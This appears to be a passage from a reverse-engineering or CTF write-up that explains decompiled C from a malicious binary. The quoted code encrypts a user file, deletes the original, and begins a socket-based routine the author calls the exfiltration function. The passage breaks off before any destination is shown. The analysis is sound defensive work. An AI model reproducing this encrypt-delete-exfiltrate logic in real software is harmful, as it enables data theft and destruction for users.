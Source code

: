 ```c
  v5 = ftell(Stream);   // Get file size
  rewind(Stream);       // Back to start
  
  Block = malloc(v5);   // Allocate for input (plaintext)
  Buffer = malloc(v5);  // Allocate for output (ciphertext)
  if ( Block && Buffer )
  {
    fread(Block, 1u, v5, Stream);
    fclose(Stream);
    
    sub_001668(a1, 32, (__int64)Block, (__int64)Buffer, v5);
```

This is the key line. Let me explain the parameters:
- `a1` is the 32-byte key from earlier
- `32` is the key length
- `Block` is the input plaintext data
- `Buffer` is the output ciphertext data
- `v5` is the length of data

Continuing, this is the actual encryption function below. 

```c
    v2 = fopen("C:\\ProgramData\\Important\\user.html.enc", "wb");
    if ( v2 )
    {
      fwrite(Buffer, 1u, v5, v2);
      fclose(v2);
      sub_00183D("C:\\ProgramData\\Important\\user.html");
      free(Block);
      free(Buffer);
      sub_001AEB("C:\\ProgramData\\Important\\user.html.enc");
      return 0;
```

It writes encrypted data to the `.enc` file, then calls two more functions.

**Examining sub_00183D:**
```c
BOOL __fastcall sub_00183D(const CHAR *a1)
{
  return DeleteFileA(a1);
}
```

Looks like it deletes the original file after encrypting it. 

**Examining sub_001AEB (the exfiltration function):**
```c
__int64 __fastcall sub_001AEB(const char *a1)
{
  char buf[4];
  sockaddr name;
  WSAData WSAData;
  SOCKET s;
  void *Buffer;
  int len;
  FILE *Stream;

  Stream = fopen(a1, "rb");
  if ( !Stream )
    return 0xFFFFFFFFLL;
    
  fseek(Stream, 0, 2);
  len = ftell(Stream);
  rewind(Stream);
  Buffer = malloc(len);
```